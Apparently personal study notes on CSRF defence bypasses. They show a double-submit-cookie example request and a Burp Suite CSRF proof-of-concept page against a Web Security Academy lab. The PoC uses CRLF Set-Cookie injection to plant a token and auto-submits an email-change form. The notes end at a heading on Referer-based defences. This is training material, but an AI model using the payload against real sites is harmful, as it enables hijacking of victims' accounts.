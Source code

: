 ## CSRF token is simply duplicated in a cookie

- some application do not maintain any server-side record of tokens that have beed issued, but instead duplicate each token within a cookie and a request parameter.
- when the subsequent request is validated, the application simply verifies that the token submitted in the request parameter is matches the value submitted in the cookie.
- this is also called `Double submit Defence against CSRF` and is advocated because it is somple to implement and avoids the need for any server-side state

```
POST /email/change HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=sdmkjsy9hnieyhve8y;
csrf=jesdf748rueknarewehfb

csrf=jesdf748rueknarewehfb&email=hello@dk.net

```

**EXploit code:**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="<https://ac441ffa1e9b108f808b1906006c00ce.web-security-academy.net/my-account/change-email>" method="POST">
      <input type="hidden" name="email" value="DK&#64;9510" />
      <input type="hidden" name="csrf" value="JgPNA6FsPgVwJm6uAYRgguGGox5BRLBQ" />
      <input type="submit" value="Submit request" />
    </form>
   <img src="<https://ac441ffa1e9b108f808b1906006c00ce.web-security-academy.net/?search=hello%0d%0aSet-Cookie:%20csrf=JgPNA6FsPgVwJm6uAYRgguGGox5BRLBQ>" onerror="document.forms[0].submit();"/>
  </body>
</html>

```

here also we have set-cookie-injection vuln that we set arbitrary cookie to the user

# Referer-based Defenses against CSRF

- some Application make use of `HTTP Referer` header to attempt to defend against CSRF attacks, Normally by verifying that the request originated from the application's own domain.
- this also can be bypassed

## validation of referer Depends on Header being present or not
